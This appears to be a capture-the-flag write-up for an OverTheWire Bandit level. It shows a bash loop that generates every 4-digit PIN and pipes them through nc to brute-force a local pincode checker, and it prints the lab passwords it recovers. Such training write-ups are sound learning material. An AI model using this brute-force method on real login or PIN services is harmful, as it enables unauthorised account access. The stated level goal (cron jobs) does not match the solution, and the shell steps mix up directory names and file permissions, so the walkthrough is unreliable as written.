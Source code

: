 <h1>Bandit 24</h1>

<h2 id="level-goal">Level Goal</h2>
<p>A program is running automatically at regular intervals from
<strong>cron</strong>, the time-based job scheduler. Look in <strong>/etc/cron.d/</strong> for
the configuration and see what command is being executed.</p>

<p><strong>NOTE:</strong> This level requires you to create your own first
shell-script. This is a very big step and you should be proud of
yourself when you beat this level!</p>

<p><strong>NOTE 2:</strong> Keep in mind that your shell script is removed once
executed, so you may want to keep a copy around…</p>

<h2 id="commands-you-may-need-to-solve-this-level">Commands you may need to solve this level</h2>
<p>cron, crontab, crontab(5) (use “man 5 crontab” to access this)</p>


<h1>Solution</h1>

```
user@host:~$ ssh bandit24@bandit.labs.overthewire.org -p 2220
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1111
Wrong! Please enter the correct pincode. Try again.
^C
```

Let's make a script that automatically tries all combinations.

```
bandit24@bandit:~$ mkdir /tmp/scripts/
bandit24@bandit:~$ vim /tmp/myscripts/runme.sh
  1 #!/bin/bash
  2 for i in {0000..9999}; do
  3     echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> /tmp/myscripts/combinations.txt
  4 done
bandit24@bandit:~$ chmod -x /tmp/myscripts/runme.sh
bandit24@bandit:~$ touch /tmp/myscripts/combinations.txt
bandit24@bandit:~$ ls /tmp/myscripts/
combinations.txt  runme.sh
bandit24@bandit:~$ bash /tmp/myscripts/runme.sh
bandit24@bandit:~$ cat /tmp/myscripts/combinations.txt | nc localhost 30002
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

[bandit level 23](bandit/tasks/bandit23.md)
[bandit level 25](bandit/tasks/bandit25.md)
